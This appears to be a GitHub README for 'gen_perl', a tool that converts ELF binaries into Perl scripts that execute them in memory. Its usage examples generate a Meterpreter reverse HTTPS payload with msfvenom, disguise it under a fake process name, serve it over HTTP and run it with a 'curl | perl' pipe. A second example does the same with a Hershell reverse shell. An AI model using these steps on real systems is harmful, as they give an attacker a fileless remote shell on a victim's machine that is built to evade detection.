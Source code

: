 # gen_perl

A script to generate perl script for execute ELF in memory.

## Usage
```
git clone https://github.com/purpleroc/gen_perl
cd gen_perl
chmod +x gen_perl.sh
./gen_perl.sh elf_file perl_script.pl process_name
```

## Example
```
# generate reverse_https elf
msfvenom -p linux/x64/meterpreter_reverse_https LHOST=127.0.0.1 LPORT=8443 -f elf -o reverse_https
# convert elf to hack.pl
./gen_perl.sh reverse_https hack.pl hello_hacker
# start http server
python -m SimpleHTTPServer 8080
# execute hack.pl
curl http://127.0.0.1:8080/hack.pl | perl
```

### meterpreter
![meterpreter](https://github.com/purpleroc/gen_perl/raw/master/pic/msf.png)

### server
#### process info
![process_info](https://github.com/purpleroc/gen_perl/raw/master/pic/ps.png)

#### file info
![file_info](https://github.com/purpleroc/gen_perl/raw/master/pic/file.png)

## Other
You can also use [Hershell](https://github.com/sysdream/hershell) to generate a reverse_tcp shell with ssl encrypt netflow.
```
make depends 
make linux64 LHOST=127.0.0.1 LPORT=1234  
# and then use gen_perl to convert it to hack.pl
./gen_perl.sh hershell hack.pl hello_hacker
```

## Reference
[In-Memory-Only ELF Execution](https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html)
